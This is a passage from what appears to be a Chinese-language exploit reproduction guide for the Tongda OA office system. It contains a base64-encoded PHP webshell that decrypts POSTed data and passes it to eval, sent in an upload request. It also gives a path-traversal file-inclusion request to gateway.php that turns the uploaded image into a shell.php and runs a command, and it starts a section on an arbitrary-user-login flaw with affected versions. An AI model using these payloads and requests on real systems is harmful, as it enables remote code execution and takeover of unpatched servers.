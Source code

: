 ```
4iIik7CgkJCgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJHApIHtldmFsKCRwLiIiKTt9fQoJQG5ldyBDKCRwYXJhbXMpOwp9Cj8+");
fwrite($fp, $a);
fclose($fp);
?>

------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

获得文件路径

```
+OK [vm]259@2104_456656689|jpg|0[/vm]
```

包含这个图片马，生成一个木马文件，会在文件包含的根目录下生成一个 shell.php文件

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.16.112:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

json={"url":"/general/../../attach/im/2104/456656689.jpg"}&cmd=ipconfig
```







## 通达OA前台任意用户登录

### 影响版本

通达OA <11.5.200417版本，通达OA 2017版本



### 漏洞复现

访问下面的网址，提示需要登录

```
http://192.168.16.112:8080/general/index.php?isIE=0&modify_pwd=0
```

